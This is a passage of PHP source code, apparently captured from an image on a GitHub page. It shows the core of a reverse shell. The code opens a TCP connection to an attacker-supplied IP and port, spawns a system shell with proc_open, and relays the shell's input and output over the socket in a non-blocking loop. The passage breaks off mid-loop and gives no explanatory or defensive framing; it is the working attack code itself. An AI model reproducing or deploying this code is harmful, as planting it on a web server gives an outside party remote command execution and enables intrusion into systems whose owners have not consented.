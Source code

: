 ```

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
// Check for end of TCP connection
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}

// Check for end of STDOUT
if (feof($pipes[1])) {
printit("ERROR: Shell process terminated");
break;
}

// Wait until a command is end down $sock, or some
// command output is available on STDOUT or STDERR
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

// If we can read from the TCP socket, send
// data to process's STDIN
if (in_array($sock, $read_a)) {
if ($debug) printit("SOCK READ");
$input = fread($sock, $chunk_size);
if ($debug) printit("SOCK: $input");
fwrite($pipes[0], $input);
}

// If we can read from the process's STDOUT
// send data down tcp connection
if (in_array($pipes[1], $read_a)) {
if ($debug) printit("STDOUT READ");
$input = fread($pipes[1], $chunk_size);
```